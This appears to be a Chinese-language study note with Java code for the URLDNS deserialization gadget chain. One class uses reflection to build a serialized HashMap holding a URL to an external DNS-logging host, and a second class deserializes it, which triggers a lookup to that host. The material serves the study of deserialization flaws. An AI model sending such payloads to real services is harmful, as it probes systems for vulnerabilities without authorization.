 

## 构造链

```java
package ConstractChain;

import java.io.*;
import java.lang.reflect.Field;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.HashMap;

public class UrlDnsChain {
    public static void Serialization(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("dns.txt"));
        objectOutputStream.writeObject(obj);
        objectOutputStream.close();
    }
    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException {
        HashMap<Object, Integer> objectObjectHashMap = new HashMap<>();
        URL url = new URL("https://ddbxplkdlx.yutu.eu.org");
        Class<? extends URL> aClass = url.getClass();
        Field hashCode = aClass.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url, 11234);
        objectObjectHashMap.put(url,1);
        hashCode.set(url, -1);
        Serialization(objectObjectHashMap);

    }
}
```

```java
package ConstractChain;

import java.io.FileInputStream;
import java.io.FileNotFoundException;
import java.io.ObjectInputStream;

public class UnSerializableDemo {
    public static Object UnSerializableDemo(String name) throws Exception {
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(name));
        Object o=objectInputStream.readObject();
        return o;
    }
    public static void main(String[] args) throws Exception {
        Object o = UnSerializableDemo("dns.txt");

    }
}
```
